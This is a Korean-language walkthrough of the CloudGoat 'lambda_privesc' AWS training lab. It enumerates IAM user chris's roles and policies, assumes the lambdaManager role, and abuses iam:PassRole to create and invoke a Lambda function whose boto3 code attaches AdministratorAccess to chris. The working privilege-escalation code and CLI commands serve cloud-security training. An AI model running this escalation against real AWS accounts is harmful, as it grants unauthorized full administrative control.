# 클라우스 서비스 취약점 분석 3

# [Scenario 2]: lambda_privesc

```python
Size: Small
Difficulty: Easy
Command: $ ./cloudgoat.py create lambda_privesc
```

## 시나리오 개요

### 자원

- IAM User
- IAM Roles

### 취약점

- IAM User Chris
- IAM USER: chris 에게 `sts:AssumeRole` 이 부여되어 있는 상황
- IAM Rule에는 Lambda 함수를 통해서 더 높은 권한을 갖일 수 있는 `iam:PassRole` 이 존재합니다.

### 목표

- Full-Privileges 획득

### exploit 흐름도



### 시나리오 환경설정



### exploit 시나리오 흐름도

- IAM 사용자 "Chris"의 정보를 토대로 사용할 수 있는 권한을 분석합니다.
- AWS Credential 을 확인한 결과 lambdaManager로 모든 lambda 를 관리하고 전달할 Rule 권한이 있는 것을 확인하였고 debug Rule에 권한이 있는 것을 확인했습니다.
- 공격자는 lambdaManager Rule을 활용하여 Lambda 함수를 사용하여 권한 상승을 수행합니다.
- 공격자는 관리자 정책을 IAM 사용자 "Chris"에 연결할 수 있도록 합니다.
- 공격자는 LambdaManager Rule을 이용하여 Lambda 함수를 생성하여 이를 지정한후 Lambda running을 Debug mode로 변경합니다.
- 공격자는 LambdaManager Rule을 사용하여 Lambda 함수를 호출하여 관리자 정책이 "Chris" 사용자에게 연결도히어 Full-Privilege 를 획득합니다.

## Exploit 시나리오

### IAM User: Chris 정보를 토대로 사용할 수 있는 권한 나열





- 사용할 수 있는 권한들을 나열한 결과 lambda, rds, ec2등으로 분석을 진행하였고 몇가지 사용 가능한 권한들 중에서 `get-caller-identity` 권한을 이용하여 chris profile의 userid, account, arn을 확인였습니다.

```python
ofile chris
{
    "UserId": "AIDA2MALBVI56QS3BF452",
    "Account": "<USERID>",
    "Arn": "arn:aws:iam::<USERID>:user/chris-lambda_privesc_cgidejvizwx9mo"
}
```

- chris의 Amazon AWS Resource Name(ARN) 고유한 리소스정보 에대해서 알 수 가 있기 때문에 해당 데이터를 통해 정확한 리소스를 구분이 가능합니다.

### lambda 정책 과 관련된 기능 나열

```python
User "chris-lambda_privesc_cgidejvizwx9mo" has 1 attached policies
Policy "cg-chris-policy-lambda_privesc_cgidejvizwx9mo" (arn:aws:iam::<USERID>:policy/cg-chris-policy-lambda_privesc_cgidejvizwx9mo)
User "chris-lambda_privesc_cgidejvizwx9mo" has 0 inline policies
User "chris-lambda_privesc_cgidejvizwx9mo" has 0 groups associated
```

- lambda 기능에 대한 정책이 하나 attached 되어 있는 것을 확인할 수 있고 이에 대한 ARN정보또한 출력이 되는 것을 통해서 해당 권한에 대한 정보를 확인하였습니다.

```python
{
    "AttachedPolicies": [
        {
            "PolicyName": "cg-chris-policy-lambda_privesc_cgidejvizwx9mo",
            "PolicyArn": "arn:aws:iam::<USERID>:policy/cg-chris-policy-lambda_privesc_cgidejvizwx9mo"
        }
    ]
}
```

- 앞에서 구한 ARN을 바탕으로 사용자가 생성한 해당 정책에 대해 자세히 알아야 합니다.
- 사용자와 Attached된 정책을 열거하기 위해서 Policy ARN을 기반한 version 정보를 조회하였습니다.



- 해당 version 정보를 통해서 `chris` 사용자는 `sts:AssumeRole` `iam:List` `iam:get` 에 대한 모든 자원과 권한에 대해 접근이 허용가능한것을 파악할 수 있습니다.
- chris 사용자의 허용가능한 roles에 대해 모두 나열을 하여 몇가지 중요한 정보들을 파악할 수 있습니다.
- elastic-load-balacing, rds, support, trustedadvisor, debug, lambda-manager 권한에 대한 Allow 상태입니다.

```python
{
    "Roles": [
        {
            "Path": "/aws-service-role/elasticloadbalancing.amazonaws.com/",
            "RoleName": "AWSServiceRoleForElasticLoadBalancing",
            "RoleId": "AROA2MALBVI57ZZNFYMTY",
            "Arn": "arn:aws:iam::<USERID>:role/aws-service-role/elasticloadbalancing.amazonaws.com/AWSServiceRoleForElasticLoadBalancing",
            "CreateDate": "2021-08-14T04:51:17+00:00",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "Service": "elasticloadbalancing.amazonaws.com"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "Description": "Allows ELB to call AWS services on your behalf.",
            "MaxSessionDuration": 3600
        },
        {
            "Path": "/aws-service-role/rds.amazonaws.com/",
            "RoleName": "AWSServiceRoleForRDS",
            "RoleId": "AROA2MALBVI5TMWNAS337",
            "Arn": "arn:aws:iam::<USERID>:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS",
            "CreateDate": "2021-08-14T04:51:19+00:00",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "Service": "rds.amazonaws.com"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "Description": "Allows Amazon RDS to manage AWS resources on your behalf",
            "MaxSessionDuration": 3600
        },
        {
            "Path": "/aws-service-role/support.amazonaws.com/",
            "RoleName": "AWSServiceRoleForSupport",
            "RoleId": "AROA2MALBVI52DTL4XEGY",
            "Arn": "arn:aws:iam::<USERID>:role/aws-service-role/support.amazonaws.com/AWSServiceRoleForSupport",
            "CreateDate": "2020-09-10T02:27:38+00:00",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "Service": "support.amazonaws.com"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "Description": "Enables resource access for AWS to provide billing, administrative and support services",
            "MaxSessionDuration": 3600
        },
        {
            "Path": "/aws-service-role/trustedadvisor.amazonaws.com/",
            "RoleName": "AWSServiceRoleForTrustedAdvisor",
            "RoleId": "AROA2MALBVI5WDUNGWNAK",
            "Arn": "arn:aws:iam::<USERID>:role/aws-service-role/trustedadvisor.amazonaws.com/AWSServiceRoleForTrustedAdvisor",
            "CreateDate": "2020-09-10T02:27:38+00:00",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "Service": "trustedadvisor.amazonaws.com"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "Description": "Access for the AWS Trusted Advisor Service to help reduce cost, increase performance, and improve security of your AWS environment.",
            "MaxSessionDuration": 3600
        },
        {
            "Path": "/",
            "RoleName": "cg-debug-role-lambda_privesc_cgidejvizwx9mo",
            "RoleId": "AROA2MALBVI566QQGU2JJ",
            "Arn": "arn:aws:iam::<USERID>:role/cg-debug-role-lambda_privesc_cgidejvizwx9mo",
            "CreateDate": "2021-08-18T01:11:47+00:00",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Sid": "",
                        "Effect": "Allow",
                        "Principal": {
                            "Service": "lambda.amazonaws.com"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "MaxSessionDuration": 3600
        },
        {
            "Path": "/",
            "RoleName": "cg-lambdaManager-role-lambda_privesc_cgidejvizwx9mo",
            "RoleId": "AROA2MALBVI52NOERA357",
            "Arn": "arn:aws:iam::<USERID>:role/cg-lambdaManager-role-lambda_privesc_cgidejvizwx9mo",
            "CreateDate": "2021-08-18T01:11:56+00:00",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Sid": "",
                        "Effect": "Allow",
                        "Principal": {
                            "AWS": "arn:aws:iam::<USERID>:user/chris-lambda_privesc_cgidejvizwx9mo"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "MaxSessionDuration": 3600
        }
    ]
}
```

### Lambda Manager, debug 정책 조회 및 분석

```python
lambdaManager
"RoleName": "cg-lambdaManager-role-lambda_privesc_cgidejvizwx9mo",
"Arn": "arn:aws:iam::<USERID>:role/cg-lambdaManager-role-lambda_privesc_cgidejvizwx9mo",

Debug
"RoleName": "cg-debug-role-lambda_privesc_cgidejvizwx9mo",
"Arn": "arn:aws:iam::<USERID>:role/cg-debug-role-lambda_privesc_cgidejvizwx9mo",
```

- 앞에서 분석하였던 두 데이터를 통해 각각 접근된 정책들에대해 조회를 하였습니다.





- 두 정책 역시 정책 ARN 정보와 관리자급에 대한 권한임을 유추할 수 있습니다. 이를 이용하여 lambda 기능을 전부 관리할 수 있는 manager이자 `iam:PassRole` 이기 때문입니다.
- 그렇다면은 lambda의 `CreateFunction` , `InvokeFunction` 을 통해서 권한 상승이 가능해집니다.
- 이는 lambda 코드를 작성할시 AWS 라이브러리를 가져오는 코드가 포함되어 새로운 lambda 함수 에 기존 IAM Rule을 전하기 때문입니다.
- AWS API를 통해서 함수를 호출하여 코드를 실행하게되면 계정에 존재하는 모든 lambda 서비스 rule과 attached된 권한에 대한 액세스 권한이 사용자에게 부여가 될 수있습니다.



- 접근이 불가능한 AWS 리소스에 액세스 하기 위해서 임시 Credential을 사용하기 위해서 `assum-role` 을 통해 해당 구성요소들을 획득할 수 있습니다.
- ARN 에 해당하는 권한들 과 이에 대한 참조되는 권한 리소스에 접근을 할 수 가 있습니다.
- 디버그 에 해당 하는 권한을 chris가 맡기 위해서는 rule에 해당하는 정보가 없기 때문에 lambdaManager에 해당하는 `assum-role`을 적용합니다.



- 다음과 같이 만료시간이 정해져있는 세션 토큰 정보를 수동으로 AWS profile 에 등록을 진행합니다
- 세션 토크은 만료 시간이 정해져 있기 때문에 해당 시가내에 수동으로 입력하고 사용해야 합니다.



### 관리자 정책 권한을 IAM User: Chris에 연결할 Lambda 함수 생성

- python 언어를 선택해서 lambda 기능을 사용할 함수를 구성하였습니다
- `boto3` 모듈은 AWS SDK에 해당하고 AWS CLI를 설치하였다면 같은 의존성에 의해 같이 설치가 되었을 것 입니다.
- AWS EC2, AWS S3 등과 같은 AWS 서비스를 생성, 구성 관리를 할 수 있으며 다양한 AWS 서비스에 대한 Low-level 수준의 액세스를 제공해줍니다.



```python
from boto3 import *
def lambda_handler(evt, cont):
	cli = client('iam')
	resp = cli.attach_user_policy(
											UserName='chris-lambda_privesc_cgidejvizwx9mo',
											PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
	)
	return resp
		
```

- `iam` 서비스를 이용하여 `chris` 사용자에게 debug 관리 정책을 연결할 예정이기 때문에 다음과 같이 `attach_user_policy` 메서드를 사용하여 해당 인스턴스를 생성할 수 있도록 설계를 하였습니다.



- 새로운 lambda 함수를 생성하는 방법은 `lambda-create-function` 기능을 이용하여 lambda 핸들러 함수를 등록할 수가 있습니다.

```python
aws lambda create-function \
	--function-name admin_function \
	--runtime python3.6 \
	--role arn:aws:iam::<USERID>:role/cg-debug-role-lambda_privesc_cgidejvizwx9mo \
	--handler lambda_function.lambda_handler \
	--zip-file fileb://lambda_function.py.zip \
	--profile lambdaManager
```



- 성공적으로 완료가 된 상황이라면 다음과 같이 StatusCode:200을 반환합니다.



- `lambda invoke` 기능을 이용하여 생성한 lambda 코드를 실핼한 결과 값을 로컬 내에 저장을 하고 해당 결과를 확인 해보면 등록하려고 하였던 debug rule이 attached 된 것을 확인하고 모든 시나리오가 끝났습니다.

```toc
```